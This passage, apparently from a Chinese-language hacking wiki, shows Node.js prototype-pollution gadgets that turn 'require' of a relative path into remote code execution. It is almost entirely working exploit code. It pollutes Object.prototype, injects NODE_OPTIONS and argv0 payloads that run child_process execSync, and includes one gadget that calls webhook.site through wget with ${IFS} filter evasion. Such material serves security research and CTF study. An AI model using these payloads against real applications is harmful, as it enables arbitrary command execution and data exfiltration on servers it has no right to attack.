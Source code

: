 #### 相对路径 require - 2

{% code overflow="wrap" %}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.data = {}
b.__proto__.data.exports = { ".": "./malicious.js" }
b.__proto__.path = "/tmp"
b.__proto__.name = "./relative_path.js" //This needs to be the relative path that will be imported in the require

// Trigger gadget
var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"data": {"exports": {".": "./malicious.js"}}, "path": "/tmp", "name": "./relative_path.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_exports_path\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{% endcode %}



\`\`\`javascript const { fork } = require('child\_process'); console.log("Hellooo from malicious"); fork('/path/to/anything'); \`\`\` #### 相对路径 require - 3

类似于前一个示例，这个漏洞在[**这篇文章**](https://blog.huli.tw/2022/12/26/en/ctf-2022-web-js-summary/#balsn-ctf-2022-2linenodejs)中被发现。

```javascript
// Requiring /opt/yarn-v1.22.19/preinstall.js
Object.prototype["data"] = {
exports: {
".": "./preinstall.js"
},
name: './usage'
}
Object.prototype["path"] = '/opt/yarn-v1.22.19'
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
"NODE_DEBUG": "console.log(require('child_process').execSync('wget${IFS}https://webhook.site?q=2').toString());process.exit()//",
"NODE_OPTIONS": "--require=/proc/self/environ"
}

require('./usage.js')
```
